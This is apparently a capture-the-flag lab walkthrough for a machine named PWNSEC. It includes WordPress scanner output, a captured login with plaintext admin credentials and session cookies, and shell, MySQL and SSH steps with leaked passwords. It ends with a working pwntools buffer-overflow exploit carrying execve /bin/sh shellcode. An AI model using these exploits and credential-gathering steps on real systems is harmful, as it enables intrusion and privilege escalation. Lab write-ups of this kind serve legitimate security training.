



# PWNSEC

__MACHINE IP__: 10.1.1.146

__DATE__: 20/05/2019

__START TIME__: 1:40


`NMAP`
---------



`dirsearch`
-----------




```bash
➜ wpscan --url http://10.1.1.146/ --enumerate u
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.4.5
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://10.1.1.146/
[+] Started: Mon May 20 16:53:33 2019

Interesting Finding(s):

[+] http://10.1.1.146/
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://10.1.1.146/xmlrpc.php
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
 | Confirmed By:
 |  - Link Tag (Passive Detection), 30% confidence
 |  - Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://10.1.1.146/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.1.1.146/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] http://10.1.1.146/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.0.26 identified (Latest, released on 2019-03-13).
 | Detected By: Rss Generator (Passive Detection)
 |  - http://10.1.1.146/?feed=rss2, <generator>https://wordpress.org/?v=4.0.26</generator>
 |  - http://10.1.1.146/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.0.26</generator>

[+] WordPress theme in use: twentythirteen
 | Location: http://10.1.1.146/wp-content/themes/twentythirteen/
 | Last Updated: 2019-05-07T00:00:00.000Z
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://10.1.1.146/wp-content/themes/twentythirteen/style.css?ver=2013-07-18
 | Style Name: Twenty Thirteen
 | Style URI: http://wordpress.org/themes/twentythirteen
 | Description: The 2013 theme for WordPress takes us back to the blog, featuring a full range of post formats, each...
 | Author: the WordPress team
 | Author URI: http://wordpress.org/
 |
 | Detected By: Css Style (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Detected By: Style (Passive Detection)
 |  - http://10.1.1.146/wp-content/themes/twentythirteen/style.css?ver=2013-07-18, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Detected By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] arlecchino
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Finished: Mon May 20 16:53:47 2019
[+] Requests Done: 55
[+] Cached Requests: 4
[+] Data Sent: 10.461 KB
[+] Data Received: 185.863 KB
[+] Memory used: 1.934 MB
[+] Elapsed time: 00:00:13
```


- FTP find webTrafic.pcapng

```
POST /wp-login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2F192.168.0.66%2Fwp-admin%2F&reauth=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Connection: keep-alive
Cookie: wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=Str0ngPass&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.0.66%2Fwp-admin%2F&testcookie=1HTTP/1.1 302 Found
Date: Sat, 13 Apr 2019 09:54:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Pragma: no-cache
Set-Cookie: wordpress_test_cookie=WP+Cookie+check; path=/
X-Frame-Options: SAMEORIGIN
Set-Cookie: wordpress_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C22a3ac800f17e2ffbdada73600e6198b36339894904469b7fae6e8b56829c105; path=/wp-content/plugins; HttpOnly
Set-Cookie: wordpress_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C22a3ac800f17e2ffbdada73600e6198b36339894904469b7fae6e8b56829c105; path=/wp-admin; HttpOnly
Set-Cookie: wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C83fa4faea4463a44ea037d45e39299bc295c1a6809e9fb4a6c62549c8ee9a968; path=/; HttpOnly
Location: http://localhost/wp-admin/
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

GET /wp-admin/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2F192.168.0.66%2Fwp-admin%2F&reauth=1
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C22a3ac800f17e2ffbdada73600e6198b36339894904469b7fae6e8b56829c105; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C83fa4faea4463a44ea037d45e39299bc295c1a6809e9fb4a6c62549c8ee9a968
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Sat, 13 Apr 2019 09:54:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Pragma: no-cache
X-Frame-Options: SAMEORIGIN
Set-Cookie: wp-settings-1=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Set-Cookie: wp-settings-time-1=1555149284; expires=Sun, 12-Apr-2020 09:54:44 GMT; Max-Age=31536000; path=/
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10515
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

GET /wp-admin/load-styles.php?c=0&dir=ltr&load=dashicons,admin-bar,wp-admin,buttons,wp-auth-check&ver=4.0.26 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/css,*/*;q=0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/wp-admin/
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C22a3ac800f17e2ffbdada73600e6198b36339894904469b7fae6e8b56829c105; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1555322083%7CxRkkenTgrrey1X9AhXNvKGZ7aLlDmyeh2otRW0YWba6%7C83fa4faea4463a44ea037d45e39299bc295c1a6809e9fb4a6c62549c8ee9a968; wp-settings-time-1=1555149284

HTTP/1.1 200 OK
Date: Sat, 13 Apr 2019 09:54:44 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Sun, 12 Apr 2020 09:54:44 GMT
Cache-Control: public, max-age=31536000
Vary: Accept-Encoding
Content-Encoding: gzip
Keep-Alive: timeout=5, max=98
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/css; charset=UTF-8
```


- admin - pass - put reverse shell
- python -c 'import pty; pty.spawn("/bin/sh")'

-  Run `LinEnum.sh`



- T3jv1l
- mysql is installed `mysql -u Tyler -p`
- `pwnsausagecomunity`
- show database;
- use roottext;


```
mysql> SELECT * FROM Pwnsec_team;
SELECT * FROM Pwnsec_team;
+------+----------------------------------+
| User | Password                         |
+------+----------------------------------+
| Bob  | e4018d9d92113c2499e3a62f03cfc825 |
+------+----------------------------------+
1 row in set (0.00 sec)
```

- e4018d9d92113c2499e3a62f03cfc825 - Bob3993 - don't crack the hash
- ssh Bob@10.1.1.146
- Get secret from `Pythong -m simplehttpserver`
- from secret get the password `pwnsausage`
- su pwnsec
- LinEnum.sh again but now as `pwnsec`

```


from pwn import *

sh = ssh(host="10.1.1.146",user="pwnsec",password="pwnsausage")
sh.set_working_directory("/home/pwnsec/Desktop")

p = sh.process('./buf')

addr = int(p.recvline().split(': ')[1].strip('\n'), 16)
sc = "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";

payload = sc
payload += 'A'*(132-30)
payload += p32(addr)

p.sendline(payload)

p.interactive()
```
